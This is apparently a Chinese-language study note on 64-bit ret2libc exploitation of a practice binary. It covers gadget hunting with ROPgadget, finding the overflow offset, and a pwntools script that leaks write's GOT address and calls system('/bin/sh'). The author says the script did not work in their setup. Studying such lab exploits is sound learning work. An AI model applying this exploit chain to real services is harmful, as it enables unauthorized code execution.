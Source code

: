 # Ret2Libc 64

+++

**Attention:** 在32位程序中，参数的传递是通过栈来实现的；但是在64位系统中通过寄存器来传递参数；主要使用 rdi，rsi，rdx，rcx，r8，r9 来传递 一到六个参数

**要注意，传参使用的是寄存器，所以要使用gadgets的链的方式实现，而不是跟前面一样使用栈传参，只需压入栈，通过栈调用即可**

+++



### 检查程序

#### Checksec检查

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-16_20-48-12.png)

通过`checksec`检查，可以查看该程序启动NX保护，进一步使用`file` 命令 来查看程序的信息，可以得知该程序为动态链接



#### Objdump使用

首先查找目标函数，system，看看程序中是否有该函数

```
objdump -d -j .plt ./ret2libc1_64
objdump -d -j .plt ./ret2libc1_64 | grep system
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-18_10-06-00.png)



#### ROPgadget 查询相关字符串

查询字符串"/bin/sh"

```
ROPgadget --binary ./ret2libc1_64 --string "/bin/sh"
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-18_10-14-05.png)



#### Ldd查看程序依赖

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-18_10-30-07.png)



### 程序逆向

由于该程序与32位程序基本一致，只是编译方式不同，所以不在过多叙述，参见32位程序的文档



### 溢出点查找

#### 生成字符串

使用指令生成长度为200的字符串，然后gdb调试程序，并运行，输入可得到溢出处

```python
cyclic 200
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-18_10-25-27.png)



由于该程序为64 位的，但cyclic仅支持32位，即四字节的地址查询，所有8字节地址根据小端序，要娶后四个字节作为地址，或者字符串的前四个字符，如上图红线标明所示。

```
cyclic -l 0x61666161
cyclic -l aafa
```

由此得到偏移量为18；



### ROPgadget查询

为了得到Got地址，我们需要使用`write`来泄露我们需要的got地址，`write`地址原型如下

```c
write(1,"str",5) #第二个参数，说明要输出的值，第三个参数说明要输出的值的长度
```

> 相对于32位程序使用后栈传参，在64位程序中采用寄存器传参，所以我们需要如下几个gadgets

```
pop rdi,ret  # 参数1
pop rsi,ret  #参数 got表地址
pop rdx,ret  #
```



```
ROPgadget --binary ./ret2libc1_64 --only "pop|ret"|grep rdi    #0x00000000004005e3
ROPgadget --binary ./ret2libc1_64 --only "pop|ret"|grep rsi    #0x00000000004005e1
ROPgadget --binary ./ret2libc1_64 --only "pop|ret"|grep rdx   #此处查不到
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-19_13-58-39.png)

**在查找rdx设置时，发现无对应gadgets，由于该参数对应输出值长度，可以先不用设置，因为rdx中可能会有上次遗留值，加以利用**



### Payload

**Attention：该脚本不成功，动态调试发现RDX寄存器值为0，无法输出所需参数，因为缺少设定RDX的gadget所以，无法修改，参考文档，亦无对rdx的设定，但是存储的垃圾数据非0，可用于输出，但我的计算机，可能因为环境问题，rdx值为0，无法继续**

```python

from pwn import *
context(arch = "amd64",os ="linux",log_level = "debug")

p = process("./ret2libc1_64")
e = ELF("./ret2libc1_64")
offset = 18

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]

vul_addr = e.symbols["vul"]

#0x00000000004005e3 : pop rdi ; ret
#0x00000000004005e1 : pop rsi ; pop r15 ; ret
pop_rdi_addr = 0x04005e3
pop_rsi_r15_addr = 0x4005e1
Payload1 =offset*b'A' + p64(pop_rdi_addr) + p64(1) + p64(pop_rsi_r15_addr) + p64(write_got_addr) + p64(1) + p64(write_plt_addr) + p64(vul_addr)

p.sendlineafter("hello",Payload1)
print("-----------------")

write_addr = u64(p.recv()[0:8].ljust(8,'\x00'))
print("-----------------")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = write_addr - libc.symbols["write"]
sys_addr = libc_base + libc.symbols["system"]
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))

Payload2 =offset*b'A' + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(sys_addr)
print("------------------")
p.sendline(Payload2)
p.interactive()


```



